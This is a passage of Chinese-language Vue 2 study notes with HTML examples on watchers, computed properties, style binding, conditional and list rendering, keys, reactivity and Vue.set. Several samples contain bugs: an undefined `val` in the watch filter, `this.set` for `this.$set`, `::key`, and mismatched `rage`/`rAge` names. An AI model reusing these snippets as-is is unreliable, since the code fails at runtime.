      /* watch: {
        isHot: {
          immediate: true, //初始化时让handler调用一下(立即执行)；默认false
          // handler什么时候调用? 当isHot发生改变时
          handler(newValue, oldValue) {
            console.log('被改了', newValue, oldValue)
          },
        },
      }, */
    })
    // 2.方法2 * 如果一开始不知道要监视谁，那用法2
    vm.$watch('isHot', {
      immediate: true, //初始化时让handler调用一下(立即执行)；默认false
      // handler什么时候调用? 当isHot发生改变时
      handler(newValue, oldValue) {
        console.log('被改了', newValue, oldValue)
      },
    })
  </script>
</html>
```

##### 1.10.3 深度监视

* (1).Vue中的watch【默认不监测】对象内部值的改变（默认一层）

  obj:{name:’ds’,age:18} 这里的一层指的后面整个对象字面量，而不是里面的值是第一层

* (2).配置`deep:true`可以监测【对象内部值】改变（多层）

**备注：**

* (1).Vue自身可以监测对象内部值的改变，但Vue提供的watch默认不可以

  > 想可以加deep：true

* (2).使用watch时根据数据的具体结构(层级)，决定是否采用`深度监视`

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>天气案例_深度监视属性</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>今天天气很{{info}}</h2>
      <!-- 绑定事件的时候：@xxx="yyy" yyy可以写一些简单的语句 -->
      <!-- <button @click="isHot = !isHot">切换天气</button> -->
      <button @click="changeWeather">切换天气</button>
      <hr />
      <h3>a的值是:{{numbers.a}}</h3>
      <button @click="numbers.a++">点我a+1</button>
      <h3>b的值是:{{numbers.b}}</h3>
      <button @click="numbers.b++">点我b+1</button>
      {{numbers.c.d.e}}
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    const vm = new Vue({
      el: '#root',
      data: {
        isHot: true,
        numbers: {
          a: 1,
          b: 2,
          c: {
            d: {
              e: 100,
            },
          },
        },
      },
      computed: {
        info() {
          return this.isHot ? '炎热' : '凉爽'
        },
      },
      methods: {
        changeWeather() {
          this.isHot = !this.isHot
        },
      },
      // 监视属性
      watch: {
        isHot: {
          // handler什么时候调用? 当isHot发生改变时
          handler(newValue, oldValue) {
            console.log('被改了', newValue, oldValue)
          },
        },
        // 监视多级结构中某个属性的变化,对象原本的属性身上是有【''】的，只是我们写习惯了，省略了
        /* 'numbers.a': {
          handler() {
            console.log('a变了')
          },
        },
      }, */
        // 监视多级结构中某个属性的变化,
        numbers: {
          deep: true,
          handler() {
            console.log('a变了')
          },
        },
      },
    })
  </script>
</html>
```

> 简写 Vs 正常写法

```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>今天天气很{{info}}</h2>
      <!-- 绑定事件的时候：@xxx="yyy" yyy可以写一些简单的语句 -->
      <!-- <button @click="isHot = !isHot">切换天气</button> -->
      <button @click="changeWeather">切换天气</button>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    const vm = new Vue({
      el: '#root',
      data: {
        isHot: true,
      },
      computed: {
        info() {
          return this.isHot ? '炎热' : '凉爽'
        },
      },
      methods: {
        changeWeather() {
          this.isHot = !this.isHot
        },
      },
      // 监视属性
      watch: {
        // 正常写法
        /*  isHot: {
          //immediate:true, //初始化时让handler调用一下
          // deep: true, //深度监视
          handler(newValue, oldValue) {
            console.log('isHot被改了', newValue, oldValue)
          },
        }, */
        // 简写(没有deep和immediate时，只有handler才能用)
        /*  isHot(newValue, oldValue) {
          //isHot函数当handler用
          console.log('isHot被改了', newValue, oldValue)
        }, */
      },
    })

    // 正常写法
    /* vm.$watch('isHot', {
      immediate: true, //初始化时让handler调用一下
      deep: true, //深度监视
      handler(newValue, oldValue) {
        console.log('被改了', newValue, oldValue)
      },
    }) */

    // 简写 (没有deep和immediate时，只有handler才能用)
    vm.$watch('isHot', function (newValue, oldValue) {
      console.log('被改了', newValue, oldValue)
    })
  </script>
```

##### 1.10.4 watch与computed区别

1. `computed`能完成的功能，`watch`都可以完成

2. `watch`能完成的功能，`computed`不一定能完成，

   > 例如：watch可以进行`异步操作 `

**两个重要的小原则:**

* 1.所被Vue管理的函数，**最好**写成【普通函数】，这样this的指向才是`vm `或 `组件实例对象`
* 2.所有不被Vue所管理的函数（定时器的回调函数、ajax的回调函数等、Promise的回调函数），**最好**写成【箭头函数】，这样this的指向才是`vm` 或 `组件实例对象`

>  比如想延迟一秒显示fullName,只能用`watch`实现

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>姓名案例_watch实现</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      姓: <input type="text" v-model="firstName" /> <br />
      名: <input type="text" v-model="lastName" /> <br />
      全名：<span>{{fullName}}</span>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    const vm = new Vue({
      el: '#root',
      // vue认为data里面的数据都是属性
      data: {
        firstName: '张',
        lastName: '三',
        fullName: '张-三',
      },

      watch: {
        firstName(val) {
          // setTimeout 不是vue管理的函数，由js引擎管理(调用的)
          setTimeout(() => {
            console.log(this) //vm
            this.fullName = val + '-' + this.lastName
          }, 1000)
        },
        lastName(val) {
          this.fullName = this.firstName + '-' + val
        },
      },
    })
  </script>
</html>
```


#### 1.11 绑定样式

##### 1.11.1 绑定class样式

写法：`:class=“xxx”  `

>  xxx可以是字符串、对象、数组。

所以分为三种写法，字符串写法，数组写法，对象写法

* 字符串写法

>  适用于：样式的类名不确定，需要动态指定

* 数组写法
> 适用于：要绑定的样式个数不确定，名字也不确定

* 对象写法
> 适用于：要绑定的样式个数确定，名字也确定，但是要动态决定用不用

##### 1.11.2 绑定style样式

* :style="{ fontSize:xxx }" 

> 其中xxx是动态值

* :style="[a,b]" 
> 其中a,b是样式对象；【样式对象里面的属性名要是存在的一个css属性】

**代码案例**

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <style>
      .basic {
        width: 200px;
        height: 100px;
        border: 1px solid #000;
      }
      .red {
        background-color: red;
      }
      .skyblue {
        background-color: skyblue;
      }
      .pink {
        background-color: pink;
      }
      .atguigu1 {
        background-color: yellowgreen;
      }
      .atguigu2 {
        font-size: 30px;
        text-shadow: 2px 2px 10px red;
      }
      .atguigu3 {
        border-radius: 20px;
      }
    </style>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
      <div class="basic" :class="color" @click="changeColor">{{name}}</div>
      <br /><br />

      <!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定，名字也不确定 -->
      <div class="basic" :class="classArr">{{name}}</div>
      <br /><br />

      <!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定，名字也确定，但是要动态决定用不用 -->
      <div class="basic" :class="classObj">{{name}}</div>
      <br /><br />

      <!-- 绑定style样式--对象写法 -->
      <div class="basic" :style="styleObj">{{name}}</div>
      <br /><br />

      <!-- 绑定style样式--数组写法：重复的样式以后面的(styleObj2)为准
      还可以用styleArr(在data里面以数组的形式写对象(styleObj)
      -->
      <div class="basic" :style="[styleObj,styleObj2]">{{name}}</div>
      <br /><br />
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    new Vue({
      el: '#root',
      data: {
        name: '爱睡觉的',
        color: 'skyblue',
        classArr: ['atguigu1', 'atguigu2', 'atguigu3'],
        classObj: {
          atguigu2: false, //false不用该类
          atguigu3: false,
        },
        styleObj: {
          fontSize: '40px',
          color: 'pink',
        },
        styleObj2: {
          fontSize: '100px',
          backgroundColor: 'orange',
        },
      },
      methods: {
        changeColor() {
          // 点击随机切换颜色
          const arr = ['red', 'skyblue', 'pink']
          //  Math.random() 是(0,1] ; Math.floor() 向下取整
          const index = Math.floor(Math.random() * 3)
          this.color = arr[index]
        },
      },
    })
  </script>
</html>
```


#### 1.12 条件渲染

##### 1.12.1 v-if

1. 写法：

   (1).`v-if`=“表达式”

   (2).`v-else-if`=“表达式”

   (3).`v-else`=“表达式”

2. 适用于：【切换频率较低】的场景，因为不展示的DOM元素直接被移除

3. 特点：不展示的DOM元素直接被移除

4. 注意：

   * `v-if`可以和`v-else-if`、`v-else`一起使用，但要求【结构不能被“打断”】
   * `template标签`不影响结构，页面html中不会有此标签，但【只能】配合v-if，不能配合v-show

5. 当条件不成立时, `v-if `的所有子节点不会解析(项目中使用)

##### 1.12.2 v-show

1. 写法：

   (1).`v-show=“表达式”`

2. 适用于：【切换频率较高】的场景

3. 特点：不展示的DOM元素未被移除，仅仅是使用样式隐藏掉(display:none)

4. 备注：使用`v-if`的时，元素可能无法获取到(因为被移除)，而使用`v-show`一定可以获取到

> v-if 是实打实地【改变】dom元素，v-show 是【隐藏或显示】dom元素

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>当前n的值是:{{n}}</h2>
      <button @click="n++">点我n++</button>
      <!-- 使用v-show做条件渲染(根据布尔值显示隐藏) 
      1.v-show为false时会隐藏结构(display:block/none)
      2.隐藏显示切换的频率高使用
      -->
      <!-- <h2 v-show="false">{{name}}</h2> -->
      <!-- <h2 v-show="1===5">{{name}}</h2> -->

      <!-- 使用v-if做条件渲染(根据布尔值显示隐藏) 
      1.v-if为false时会删除整个被控制html结构(增减dom节点)
      2.隐藏显示切换的频率低使用
      -->
      <!-- <h2 v-if="false">{{name}}</h2> -->
      <!-- <h2 v-if="1===5">{{name}}</h2> -->

      <!-- v-else和v-else-if (使用时不允许被打断【中间不能有其他代码】)-->
      <!-- <div v-if="n===1">angular</div>
      <div v-else-if="n===2">react</div>
      <div v-else-if="n===3">vue</div>
      <div v-else>哈哈哈</div> -->

      <!-- v-if和template的配合使用 -->
      <template v-if="n===1">
        <h2>螺蛳粉</h2>
        <h2>火锅</h2>
        <h2>阿阿布</h2>
      </template>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    const vm = new Vue({
      el: '#root',
      data: {
        name: '甜皮鸭',
        n: 0,
      },
    })
  </script>
</html>
```


#### 1.13 列表渲染

##### 1.13.1 v-for指令

1. 用于展示列表数据

2. 语法：`v-for`=“**(item, index)** `in/of` **xxx**” `:key`=**“yyy”**

   > 这里key可以是index，更好的是遍历对象的【唯一标识】
   >
   > 如果key写的是index，前面可以不写index也能用

3. 可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <!-- 遍历数组 
      v-for="(实参，索引号)  of 【data里面的数值】-->
      <h2>人员列表</h2>
      <ul>
        <li v-for="(p,index) of persons" :key="index">{{index}}--{{p.name}}-{{p.age}}</li>
      </ul>

      <!-- 遍历对象
      v-for="(属性值,属性名) of 【data里面的对象】-->
      <h2>汽车信息</h2>
      <ul>
        <li v-for="(value,k) of car" :key="k">{{k}}--{{value}}</li>
      </ul>

      <!-- 遍历字符串
      v-for="(自定义字符串名字,索引号) of 【data里面的字符串】 -->
      <h2>测试遍历字符串</h2>
      <ul>
        <li v-for="(char,index) of str" :key="index">{{char}}--{{index}}</li>
      </ul>

      <!-- 遍历指定次数
      v-for="(数值,索引号) of 【数字】 
      数值从1开始，索引号从0开始
      -->
      <h2>测试遍历指定次数</h2>
      <ul>
        <li v-for="(number,index) of 5" :key="index">{{number}}--{{index}}</li>
      </ul>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    new Vue({
      el: '#root',
      data: {
        persons: [
          { id: '001', name: '张三', age: 18 },
          { id: '002', name: '李四', age: 19 },
          { id: '003', name: '王五', age: 20 },
        ],
        car: {
          name: '奥迪',
          price: '20w',
          color: 'red',
        },
        str: 'hello',
      },
    })
  </script>
</html>
```

##### 1.13.2 key作用与原理

1. vue中的key有什么作用？（key的内部原理）

* 就是vue的`虚拟dom`，vue会根据 data中的数据生成`虚拟dom`，如果是第一次生成页面，就将虚拟dom转成真实dom，在页面展示出来。

2. 虚拟dom有啥用？

* 每次`vm._data` 中的数据更改，都会触发生成新的虚拟dom，新的虚拟dom会跟旧的虚拟dom进行比较，如果有相同的，在生成真实dom时，这部分相同的就不需要重新生成，只需要将两者之间不同的dom转换成真实dom，再与原来的真实dom进行拼接。我的理解是虚拟dom就是起到了一个dom复用的作用，还有避免重复多余的操作，下文有详细解释。


3. 而key有啥用？

* ​ key是虚拟dom的标识。

**面试题：**`react`、`vue`中的`key`有什么作用？（key的内部原理）

1. `虚拟DOM`中`key`的作用：

* (1).`key`是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】

*  (2).随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下：


2. 对比规则：
* (1).旧虚拟DOM中**找到了**与新虚拟DOM相同的`key`：

  * ①.若虚拟DOM中【内容没变】, 直接使用之前的真实DOM！(复用)
  * ②.若虚拟DOM中【内容变了】, 则生成新的真实DOM，随后【替换掉】页面中之前的真实DOM。

*   (2).旧虚拟DOM中**未找到**与新虚拟DOM相同的`key`

  *  ①.创建新的真实DOM，随后渲染到到页面。

3. 用index作为key可能会引发的问题：

*   (1). 若对数据进行：逆序添加、逆序删除等【**破坏顺序操作**】:

  * ①.会产生没有必要的真实DOM更新 == > 界面效果没问题, 但【效率低】。

*   (2). 如果结构中还包含【**输入类的DOM**】：

  * ①. 会产生错误DOM更新 == > 界面【有问题】。

4. 开发中如何选择`key`?:

*  (1).最好使用每条数据的**【唯一标识作为key】,** 比如id、手机号、身份证号、学号等唯一值。
*  (2).如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用index作为key是没有问题的。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <!-- 遍历数组 
        key是vue内部征用的(虚拟dom中显示)，html中不显示
        如果不写key,默认把index的数据作为key
      -->
      <h2>人员列表</h2>
      <button @click.once="add">添加一个老刘</button>
      <ul>
        <li v-for="(p,index) of persons" :key="index">
          {{index}}--{{p.name}}--{{p.age}}
          <input type="text" />
        </li>
      </ul>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示
    new Vue({
      el: '#root',
      data: {
        persons: [
          { id: '001', name: '张三', age: 18 },
          { id: '002', name: '李四', age: 19 },
          { id: '003', name: '王五', age: 20 },
        ],
      },
      methods: {
        add() {
          const p = { id: '004', name: '老刘', age: '40' }
          // unshift() 在数组最前面放数据
          this.persons.unshift(p)
        },
      },
    })
  </script>
</html>
```


> index作为key


> id作为key


##### 1.13.3 列表过滤

**watch实现**

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>人员列表</h2>
      <input type="text" placeholder="请输入名字" v-model="keyWord" />
      <ul>
        <li v-for="(p,index) of filPersons" :key="index">
          {{p.name}}--{{p.age}}--{{p.sex}}
        </li>
      </ul>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示

    // 用watch实现
    // #region * 强制折叠
    new Vue({
      el: '#root',
      data: {
        keyWord: '',
        persons: [
          { id: '001', name: '马冬梅', age: 18, sex: '女' },
          { id: '002', name: '周冬雨', age: 19, sex: '女' },
          { id: '003', name: '周杰伦', age: 20, sex: '男' },
          { id: '004', name: '温兆伦', age: 40, sex: '男' },
        ],
        filPersons: [],
      },
      // watch与data同级别
      watch: {
        // val是新值
        keyWord: {
          immediate: true, //不等代码跑完先执行一次，相当于第一次输入空字符串=>显示所有
          handler() {
            // filters过滤,不更改原数组，而是返回新数组
            this.filPersons = this.persons.filter((p) => {
              //  indexOf看有没有xxx包含某值,返回该值在xxx中的索引号（从0开始）
              //   eg:'abc'.indexOf('b') => 1
              //   'abc'.indexOf('x') =>-1
              //   'abc'.indexOf('')=>0 包含空字符串

              return p.name.indexOf(val) !== -1 //
            })
          },
        },
      },
    })
    //#endregion

  </script>
</html>
```

**computed实现**

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>人员列表</h2>
      <input type="text" placeholder="请输入名字" v-model="keyWord" />
      <ul>
        <li v-for="(p,index) of filPersons" :key="index">
          {{p.name}}--{{p.age}}--{{p.sex}}
        </li>
      </ul>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示

    // 用computed实现
    new Vue({
      el: '#root',
      data: {
        keyWord: '',
        persons: [
          { id: '001', name: '马冬梅', age: 18, sex: '女' },
          { id: '002', name: '周冬雨', age: 19, sex: '女' },
          { id: '003', name: '周杰伦', age: 20, sex: '男' },
          { id: '004', name: '温兆伦', age: 40, sex: '男' },
        ],
      },
      computed: {
        /* 计算属性什么时候调用？
        1.计算的时候所依赖的数据发生变化
        2.一开始的时候
        */
        filPersons() {
          return this.persons.filter((p) => {
            return p.name.indexOf(this.keyWord) !== -1
          })
        },
      },
    })
  </script>
</html>

```

##### 1.13.4 列表排序


```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>人员列表</h2>
      <input type="text" placeholder="请输入名字" v-model="keyWord" />
      <button @click="sortType=2">年龄升序</button>
      <button @click="sortType=1">年龄降序</button>
      <button @click="sortType=0">原顺序</button>
      <ul>
        <li v-for="(p,index) of filPersons" :key="p.id">
          {{p.name}}--{{p.age}}--{{p.sex}}
        </li>
      </ul>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示

    new Vue({
      el: '#root',
      data: {
        keyWord: '',
        sortType: 0, //sortType类型是数字！！！0原顺序 1降序 2 升序
        persons: [
          { id: '001', name: '马冬梅', age: 33, sex: '女' },
          { id: '002', name: '周冬雨', age: 19, sex: '女' },
          { id: '003', name: '周杰伦', age: 20, sex: '男' },
          { id: '004', name: '温兆伦', age: 40, sex: '男' },
        ],
      },
      computed: {
        filPersons() {
          const arr = this.persons.filter((p) => {
            return p.name.indexOf(this.keyWord) !== -1
          })
          // 判断是否需要排序
          if (this.sortType) {
            arr.sort((p1, p2) => {
              return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age
            })
          }
          return arr
        },
      },
    })

    // sort复习
    /*
    // 1.sort改变原数组
    // 2.前 - 后 =>升序
    // 3.后 - 前 =>降序
    // 4.sort括号里面只写一个，返回原数组

    let arr = [1, 3, 5, 4, 4, 8, 7]
    arr.sort((a, b) => {
      // return a - b //升 [1, 3, 4, 4, 5, 7, 8]
      // return b - a //降 [8, 7, 5, 4, 4, 3, 1]
      // return b //原数组
    })
    console.log(arr)*/
  </script>
```

#### 1.14 数据监视

##### 1.14.1 问题引入


****

```html
<body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>人员列表</h2>
      <button @click="updateMei">更新马冬梅</button>
      <ul>
        <li v-for="(p,index) of persons" :key="p.id">
          {{p.name}}--{{p.age}}--{{p.sex}}
        </li>
      </ul>
    </div>
  </body>
  <script>
    Vue.config.productionTip = false //阻止vue在启动时生成生产提示

    new Vue({
      el: '#root',
      data: {
        keyWord: '',
        sortType: 0, //sortType类型是数字！！！0原顺序 1降序 2 升序
        persons: [
          { id: '001', name: '马冬梅', age: 33, sex: '女' },
          { id: '002', name: '周冬雨', age: 19, sex: '女' },
          { id: '003', name: '周杰伦', age: 20, sex: '男' },
          { id: '004', name: '温兆伦', age: 40, sex: '男' },
        ],
      },
      methods: {
        updateMei() {
          // this.persons[0].name = '马老师' //奏效
          // this.persons[0].age = 50 //奏效
          // this.persons[0].sex = '男' //奏效
          this.persons[0] = { id: '001', name: '马老师', age: 50, sex: '男' }
        },
      },
    })
  </script>
```

>  点击更新马冬梅的信息，马冬梅的数据并没有发生改变，这个更改的数据并没有被 vue 监测到。

##### 1.14.2 模拟一个数据监视

```html
 <script>
      // 本案例只模拟了一层，而vue里面有递归有多少层都能找到并为他设置getter和setter
      let data = {
        name: '小明',
        age: 19,
      }
      //   创建一个监视的实例对象，用于监视data中属性的变化
      const obs = new Observer(data)
      console.log(obs)

      //   准备一个vm实例对象
      let vm = {}
      vm._data = data = obs

      //   监视属性的构造函数
      function Observer(obj) {
        // 汇总对象中所有的属性形成一个数组
        const keys = Object.keys(obj)
        // 遍历
        keys.forEach((k) => {
          // 在this(实例对象)中添加属性(k)
          Object.defineProperty(this, k, {
            get() {
              return obj[k]
            },
            set(val) {
              console.log(`${k}被改了`)
              obj[k] = val
            },
          })
        })
      }
    </script>
```

##### 1.14.3 Vue.set的使用

`Vue.set(target，propertyName/index，value) `或

`vm.$set(target，propertyName/index，value)`

**用法：**

​	向响应式对象中添加一个 `property`，并确保这个`新 property `同样是响应式的，且触发视图更新。它`必须`用于向响应式对象上添加新 property，因为 Vue 无法探测普通的新增 property (比如 `vm.myObject.newProperty = 'hi'`)

**注意：**

​	`Vue.set() `或 `vm.$set `有缺陷：

> 括号中第一个数据target不能是vm和vm身上第一层的数据(_data和data里面的)

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
      <h2>学校名称：{{name}}</h2>
      <h2>学校地址：{{address}}</h2>
      <hr />
      <h1>学生信息</h1>
      <button @click="addSex">添加一个性别属性，默认男</button>
      <h2>姓名：{{student.name}}</h2>
      <h2 v-if="student.sex">性别：{{student.sex}}</h2>
      <h2>年龄：真实{{student.age.rage}},对外{{student.age.sage}}</h2>
      <hr />
      <h2>朋友们</h2>
      <ul>
        <li v-for="(f,index) in student.friends" ::key="index">
          {{f.name}}-- {{f.age}}
        </li>
      </ul>
    </div>
  </body>

  <script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
      el: '#root',
      data: {
        name: '尚硅谷',
        address: '北京',
        student: {
          name: 'tom',
          age: {
            rAge: 40,
            sAge: 29,
          },
          friends: [
            { name: 'jerry', age: 35 },
            { name: 'Tom', age: 45 },
          ],
        },
      },
      methods: {
        addSex() {
          // Vue.set(target,'key','value')  target不能是vm和vm身上第一层的数据(_data和data里面的)
          //   Vue.set(this.student, 'sex', '男')
          this.$set(this.student, 'sex', '男') //vm的方法
        },
      },
    })
  </script>
```

##### 1.14.4 监视数组

```html
<body>
    <!-- 准备好一个容器-->
    <div id="root">
      <h2>学校名称：{{name}}</h2>
      <h2>学校地址：{{address}}</h2>
      <hr />
      <h1>学生信息</h1>
      <button @click="addSex">添加一个性别属性，默认男</button>
      <h2>姓名：{{student.name}}</h2>
      <h2 v-if="student.sex">性别：{{student.sex}}</h2>
      <h2>年龄：真实{{student.age.rage}},对外{{student.age.sage}}</h2>
      <hr />
      <h2>爱好</h2>
      <ul>
        <li v-for="(h,index) in student.hobby" ::key="index">{{h}}</li>
      </ul>
      <h2>朋友们</h2>
      <ul>
        <li v-for="(f,index) in student.friends" ::key="index">
          {{f.name}}-- {{f.age}}
        </li>
      </ul>
    </div>
  </body>

  <script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
      el: '#root',
      data: {
        name: '尚硅谷',
        address: '北京',
        student: {
          name: 'tom',
          age: {
            rAge: 40,
            sAge: 29,
          },
          hobby: ['抽烟', '喝酒', '烫头'],
          friends: [
            { name: 'jerry', age: 35 },
            { name: 'Tom', age: 45 },
          ],
        },
      },
    })
  </script>
```


> 所以我们通过 vm._data.student.hobby[0] = ‘aaa’ // 不奏效
>
> `vue `监测在数组那没有 getter 和 setter，所以监测不到数据的更改，也不会引起页面的更新

vue 对数组无法通过 getter 和 setter 进行数据监视,而是通过 `包装`数组上常用的用于修改数组的方法来实现的。


##### 1.14.5 练习

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <title>Vue监测数据改变的原理</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 准备好一个容器-->
    <div id="root">
      <h1>学生信息</h1>
      <button @click="student.age++">年龄+1</button><br />

      <button @click="addSex">添加一个性别属性，默认男</button><br />
      <button @click="student.sex='未知'">修改性别</button><br />
      <button @click="addFriend">在列表首位添加一个朋友</button><br />
      <button @click="updateFirstFriendName">
        修改第一个朋友的名字为：张三</button
      ><br />
      <button @click="addHobby">添加一个爱好</button><br />
      <button @click="updateFirstHobby">修改第一个爱好为：开车</button><br />
      <button @click="removeSmoke">过滤爱好中的抽烟</button><br />

      <h2>姓名：{{student.name}}</h2>
      <!-- 没有sex属性时隐藏 -->
      <h2 v-if="student.sex">性别：{{student.sex}}</h2>
      <h2>年龄：{{student.age}}</h2>
      <h2>爱好</h2>
      <ul>
        <li v-for="(h,index) in student.hobby" ::key="index">{{h}}</li>
      </ul>
      <h2>朋友们</h2>
      <ul>
        <li v-for="(f,index) in student.friends" ::key="index">
          {{f.name}}-- {{f.age}}
        </li>
      </ul>
    </div>
  </body>

  <script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
      el: '#root',
      data: {
        student: {
          name: 'tom',
          age: 29,
          hobby: ['抽烟', '喝酒', '烫头'],
          friends: [
            { name: 'jerry', age: 35 },
            { name: 'Tom', age: 45 },
          ],
        },
      },
      methods: {
        // 添加一个性别属性
        addSex() {
          // Vue.set(this.student, 'sex', '男')
          this.$set(this.student, 'sex', '男')
        },
        // 在列表首位添加一个朋友
        addFriend() {
          this.student.friends.unshift({ name: 'pop', age: 50 })
        },
        updateFirstFriendName() {
          // 修改对象的属性，本质是改对象
          this.student.friends[0].name = '张三'
        },
        addHobby() {
          this.student.hobby.push('打篮球')
        },
        updateFirstHobby() {
          // this.student.hobby.splice(0, 1, '开车') //从第0个开始删一个在插入一个新的
          // Vue.set(this.student.hobby, 0, '开车') //爱好里面的第0个改为开车
          this.set(this.student.hobby, 0, '开车') //爱好里面的第0个改为开车
        },
        removeSmoke() {
          // 需要重新赋值,新数组替换旧数组
          this.student.hobby = this.student.hobby.filter((h) => {
            return h !== '抽烟'
          })
        },
      },
    })
  </script>
</html>
```

##### 1.14.6 总结

Vue监视数据的原理：

1. `vue`会监视`data`中所有层次的数据
2. 如何监测`对象`中的数据？

* 通过setter实现监视，且要在new Vue时就传入要监测的数据。

  * (1).对象中后追加的属性，Vue默认`不做`响应式处理
  * (2).如需给后添加的属性做响应式，请使用如下API：

  > `Vue.set(target，propertyName/index，value)` 或
  >
  > `vm.$set(target，propertyName/index，value)`

3. 如何监测`数组`中的数据？

* 通过`包裹数组`更新元素的方法实现，本质就是做了两件事：

  * (1).调用原生对应的方法对数组进行更新
  * (2).重新解析模板，进而更新页面

4. 在Vue修改`数组`中的某个元素一定要用如下方法：

   1. 使用这些API:`push()`、`pop()`、`shift()`、`unshift()`、`splice()`、`sort()`、`reverse()`
   2. `Vue.set()` 或 `vm.$set()`

> **特别注意：**
>
> Vue.set() 和 vm.$set() 不能给vm 或 vm的根数据对象（data和_data） 添加属性！！！
>
> 例:Vue.set(this,…,…)或this.$set(this,…,…)


#### 1.15 v-model双向绑定(收集表单数据)

* 若：`<input type="text"/>`，则`v-model`收集的是`value`值，用户输入的就是`value值`。

  > `number`和` v-model.number`一起使用

```html
<!-- 准备好一个容器-->
<div id="root">
    <form @submit.prevent="demo">
        账号：<input type="text" v-model.trim="userInfo.account"> <br/><br/>
        密码：<input type="password" v-model="userInfo.password"> <br/><br/>
        年龄：<input type="number" v-model.number="userInfo.age"> <br/><br/>
        <button>提交</button>
    </form>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el:'#root',
        data:{
            userInfo:{
                account:'',
                password:'',
                age:18,
            }
        },
        methods: {
            demo(){
                console.log(JSON.stringify(this.userInfo))
            }
        }
    })
</script>

```

* 若：`<input type="radio"/>`，则`v-model`收集的是`value`值，且要给标签【配置】`value`值。

```html
<!-- 准备好一个容器-->
<div id="root">
    <form @submit.prevent="demo">
        性别：
        男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
        女<input type="radio" name="sex" v-model="userInfo.sex" value="female">
    </form>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el:'#root',
        data:{
            userInfo:{
                sex:'female'
            }
        },
        methods: {
            demo(){
                console.log(JSON.stringify(this.userInfo))
            }
